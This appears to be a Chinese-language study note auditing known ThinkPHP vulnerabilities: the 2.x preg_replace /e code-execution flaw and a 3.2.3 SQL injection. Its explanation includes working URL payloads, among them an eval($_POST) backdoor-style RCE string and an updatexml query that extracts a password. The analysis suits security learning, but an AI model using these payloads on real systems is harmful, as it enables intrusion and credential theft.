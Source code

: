 ```yaml
---
title: thinkphp框架
id: thinkphp框架
---
```


<!-- more -->

太久没学习了。。就打算学习一下thinkphp这个框架，简单跟着人家审计一下







# ThinkPHP 2.x 任意代码执行漏洞



- php版本<=5.6.29

- 成因是preg_replace()使用了修饰符/e匹配路由，导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

  ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。
  
  ```php
  #./ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102: 
  $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
  ```
  

学习文章：

[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/223149.html)

[PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md)

[深入研究preg_replace与代码执行 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2557)



俺的理解：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

1、preg_replace — 执行正则表达式的搜索和替换

> ```php
>mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit ] )
> # 在 subject 中搜索 pattern 模式的匹配项并替换为 replacement 。
> # 如果指定了 limit ，则仅替换 limit 个匹配，如果省略 limit 或者其值为 -1，则所有的匹配项都会被替换。
> ```
> 
> 而/e修正符会让preg_replace()将replacement参数当作php代码执行
>(当然要确保replacement构成合法的php代码字符串，否则会PHP会报告在包含 preg_replace() 的行中出现语法解析错误)

此处`'$var[\'\\1\']="\\2";'`即为replacement

2、表达式反向引用

`\1`和`\2`为反向引用，分别指向的是第一个和第二个子匹配项

> **反向引用** [正则表达式 – 语法_w3cschool](https://www.w3cschool.cn/zhengzebiaodashi/regexp-syntax.html)
>
> 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

3、php可变变量

> 在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。
> `${phpinfo()}` 中的 **phpinfo()** 会被当做变量先执行，执行后，即变成 `${1}` (phpinfo()成功执行返回true)。



```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e',
 '$var[\'\\1\']="\\2";',
 implode($depr,$paths));
```

回到Thinkphp代码中来，



正则`(\w+)([^/]+)`表示每次匹配路径的2个参数



`implode($depr,$paths)`，implode()将数组拼接为字符串



结合起来就是每次匹配2个参数，第一个参数作为数组键名，第二个作为数组键值



而路径`$paths`可控，就可以实现代码执行



这里要注意的是：

- 实验时路径要用双引号闭合才能解析变量，单引号不行；而implode()函数
- 代码执行的位置，必须是键值的位置，而非键名



> [ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/223149.html)
>
> ```php
> <?php
> $var = array();
> $a='$var[\'\\1\']="\\2";';
> $b='a/b/c/d/e/f';
> preg_replace("/(\w+)\/([^\/\/])/ies",$a,$b);
> 
> print_r($var);
> 
> 运行结果：
> Array
> (
>  [a] => b
>  [c] => d
>  [e] => f
> )
> 
> # $b="a/{${phpversion()}}/c/d/e/f";
> 
> 运行结果：
> Notice:  Undefined variable: 5.4.6 in [...][...]on line 5
> Array
> (
>  [c] => d
>  [e] => f
> )
> ```
>
> ![](https://s2.loli.net/2022/03/17/bkoiEeCjJvWNXc6.png)

由此可构造payload：

```
/index.php?s=a/b/c/${phpinfo()}
/index.php?s=a/b/c/${phpinfo()}/c/d/e/f
/index.php?s=a/b/c/d/e/${phpinfo()}

rce:
/index.php?s=a/b/c/${@print(eval($_POST[1]))}
```











# Thinkphp3

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

> thinkphp3版本路由格式:
>
> ```
> http://serverName/index.php/模块/控制器/方法/参数
> ```

[ThinkPHP3.2.3SQL注入分析 - Pan3a - 博客园 (cnblogs.com)](https://www.cnblogs.com/Pan3a/p/14873308.html)

## Thinkphp3.2.3 SQL注入

### where

payload:

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```













